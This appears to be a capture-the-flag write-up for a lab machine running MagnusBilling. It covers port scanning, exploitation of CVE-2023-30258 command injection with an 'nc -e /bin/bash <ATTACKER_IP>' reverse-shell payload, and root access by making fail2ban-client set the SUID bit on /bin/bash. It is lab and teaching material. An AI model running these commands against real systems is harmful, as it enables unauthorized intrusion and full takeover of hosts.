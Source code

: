 # Billing
### Users
```
asterisk
magnus
```
## Portscan
```
Nmap scan report for 10.10.1.211
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.1.211/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 08:07:36 2025 -- 1 IP address (1 host up) scanned in 9.44 seconds
```
## Web Enumeration

### Fuzzing
![fuzzing_results](../pictures/billing/mbill_fuzz.png)

**CMS:** Magnus Billing
* README.md file discloses version
* Vulnerable to **CVE-2023-30258**
* Vulnerable file in **/mbilling/lib/icepay/**

![vulnerable_directory](../pictures/billing/lib_dir.png)

## Foothold / Privilege Escalation

### Initial Foothold
CVE-2023-30258 enables me to get a reverse shell in the machine as the asterisk user.
There are two ways of exploiting this CVE. one way is throught the metasploit module, where you select the target host and your listener host. The other way involves manually intercepting the request from the php file of the Icepay software which is vulnerable to command injection due to the exec() function it performs.

### Exploting CVE-2023-30258
1. Capturing the request
![captured_exploit_request](../pictures/billing/req_capture.png)
* Using burpsuite access /lib/icepay/icepay.php and send the request to the repeater

2. Crafting the payload and obtaining a reverse shell
![reverse_shell_payload](../pictures/billing/rev_shell_payload.png)
* Using ```nc -e /bin/bash <ATTACKER_IP> <LISTEN_PORT>``` as the payload, I can use the exploit to get a reverse shell into the machine

### Privilege Escalation
User asterisk has sudo permissions on the /usr/bin/fail2ban-client
![asterisk_sudo_permissions](../pictures/billing/asterisk_sudo_perms.png)

I googled around and found the article mentioned below on techniques for escalating priveleges using fail2ban-client.
I wasn't able to escalate privileges how the article explained since I need write privileges to the iptables-multiport.conf file. But, I am still able to use fail2ban-client as sudo.
I parsed through the fail2ban-client help menu and saw an interesting command.

![privesc_command](../pictures/billing/privesc_command.png)

This enables me to manually update the actionban command and perform another command when I ban an IP with fail2ban-client.
To do this I entered:\
```sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban 'chmod +s /bin/bash' ```
* This command sets the actionban to giving the /bin/bash binary a SUID bit whenever I ban an IP address

After setting the custom action that will perform after banning an IP, I just had to ban an IP address and the /bin/bash binary will have a SUID bit.\
```sudo /usr/bin/fail2ban-client set sshd banip 8.8.8.8```

![command_for_privesc](../pictures/billing/privesc.png)

## Journal
https://juggernaut-sec.com/fail2ban-lpe/
* Article for privilege escalation via fail2ban